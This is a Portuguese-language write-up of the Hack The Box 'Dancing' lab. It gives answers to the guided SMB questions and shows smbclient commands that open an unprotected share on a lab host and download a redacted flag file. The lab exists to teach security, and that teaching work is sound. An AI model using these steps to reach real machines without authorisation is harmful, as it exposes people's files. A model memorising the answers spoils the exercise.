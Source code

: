 # Dancing

#### Tags 
`Windowns` `Wrong Permissions`

## Questões

1. **O que significa o acrônimo de 3 letras SMB?**
*R:* `Server Message Block`

2. **Qual a porta o SMB usa para operar?** 
*R:* `445`

3. **Qual modelo de comunicação de rede o SMB usa, arquitetonicamente falando?**
*R:* `client-server model`

4. **Qual é o nome do serviço para a porta 445 que apareceu em nossa varredura nmap?**
*R:* `microsoft-ds`

5. **Qual é a ferramenta que usamos para conectar a compartilhamentos SMB de nossa distribuição Linux?**
*R:* `smbclient`

6. **Qual é a 'flag' ou 'switch' que podemos usar com a ferramenta SMB para 'listar' o conteúdo do compartilhamento?**
*R:* `-L`

7. **Qual é o nome do compartilhamento que podemos acessar no final?**
*R:* `workshares`

8. **Qual é o comando que podemos usar no shell SMB para baixar os arquivos que encontramos?**
*R:* `get`

## **Envie a flag**
*write-up:*
~~~shell
# smbclient //10.129.52.23/WorkShares
# ls 
# cd James.P
# ls
# get flag.txt
# HTB{∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎}
~~~
